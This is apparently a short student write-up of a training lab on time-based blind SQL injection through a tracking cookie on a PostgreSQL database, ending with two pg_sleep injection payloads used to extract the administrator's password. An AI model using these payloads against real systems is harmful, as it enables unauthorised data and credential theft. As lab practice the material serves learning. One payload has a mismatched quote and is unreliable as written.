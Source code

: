 # Practitioner Lab 19: Blind SQL injection with time delays and information retrieval

---

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

![Untitled](Practitioner%20Lab%2019%20Blind%20SQL%20injection%20with%20time%20%202e7426c548f048649536493648ea9b3b/Untitled.png)

I opened the website and then I went into the request and the first thing I did was try multiple different request to see what type of database it was

the POSTGRES command work so I now know its a Postgres database.

![Untitled](Practitioner%20Lab%2019%20Blind%20SQL%20injection%20with%20time%20%202e7426c548f048649536493648ea9b3b/Untitled%201.png)

![Untitled](Practitioner%20Lab%2019%20Blind%20SQL%20injection%20with%20time%20%202e7426c548f048649536493648ea9b3b/Untitled%202.png)

Based on the time response I can tell it has a length of 20 Now I just got to check to see which one is the password.

![Untitled](Practitioner%20Lab%2019%20Blind%20SQL%20injection%20with%20time%20%202e7426c548f048649536493648ea9b3b/Untitled%203.png)

I then started to enumerate the password and got the complete answer.

![Untitled](Practitioner%20Lab%2019%20Blind%20SQL%20injection%20with%20time%20%202e7426c548f048649536493648ea9b3b/Untitled%204.png)

```

Cookie: TrackingId=wjBdEYF2Gue705hh'%3bSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(20)+ELSE+pg_sleep(0)+END--; session=ZFP9yrS0Gxx1fzggZXtCrk7WDqV2zMnX

```

```
'%3bSELECT+CASE+WHEN+(SUBSTRING(password,20,1)='a")+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username='administrator'--;
```
